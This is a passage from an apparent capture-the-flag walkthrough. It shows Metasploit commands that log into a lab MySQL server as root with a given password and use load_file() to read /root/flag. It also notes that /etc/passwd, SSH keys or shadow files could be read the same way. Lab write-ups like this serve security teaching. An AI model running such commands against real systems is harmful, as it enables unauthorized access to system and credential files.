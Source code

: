 {{< figure src="__GHOST_URL__/content/images/2019/12/image-75.png" >}}

We will need to `set` our variables. `rhost`, `username`, `password` and `sql`.

Command:
`msf5> set username root`
`msf5> set password fArFLP29UySm4bZj`
`msf5> set rhosts target-2`

The last command that needs to be set is `sql`. This is where we are going to put the query we want. In this case we will use [load_file()](https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php) function. This function lets us read files on the host system. We call the function and give it the file to read.

Command:
`msf5> set sql select load_file(\'/root/flag\')`

You'll notice in the above we need to [escape](https://en.wikipedia.org/wiki/Escape_character) the single quotes with backslashes. This way the interpeter knows to leave the quotes in place during the command. You can read other files such as `/etc/passwd`. We now `run` the command.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-76.png" >}}

There we have it, our flag! Now we took a guess at where the flag file was located but with this technique we could further enumerate the target system. Obtaining things like `SSH` keys or `shadowed` password files.

Hopefully this lead some insight into the tools that can be used in many CTF's.



